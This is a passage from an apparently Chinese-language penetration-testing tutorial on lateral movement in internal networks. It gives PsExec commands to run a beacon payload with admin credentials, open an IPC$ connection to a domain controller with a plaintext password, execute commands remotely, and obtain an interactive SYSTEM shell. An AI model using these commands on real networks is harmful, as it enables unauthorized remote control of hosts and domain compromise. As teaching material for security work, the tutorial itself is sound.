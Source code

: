 

**3.尝试以更高的权限执行程序**

```
PsExec \\ip -u <管理员用户> -p <用户密码> -accepteula -h C:\beacon.exe
```



## IPC$下使用psexec

首先需建立IPC$链接

```
net use \\dc.henry.com\ipc$ /user:administrator qQ123456
```

![image-20230902113049749](内网横向移动/image-20230902113049749.png)	



上传psexec至目标主机，远程执行ipconfig命令

```
PsExec64.exe -accepteula \\dc.henry.com -s ipconfig
```

![image-20230902113126219](内网横向移动/image-20230902113126219.png)	



获取一个交互性的cmd shell

```
PsExec64.exe -accepteula \\dc.henry.com -s cmd
```
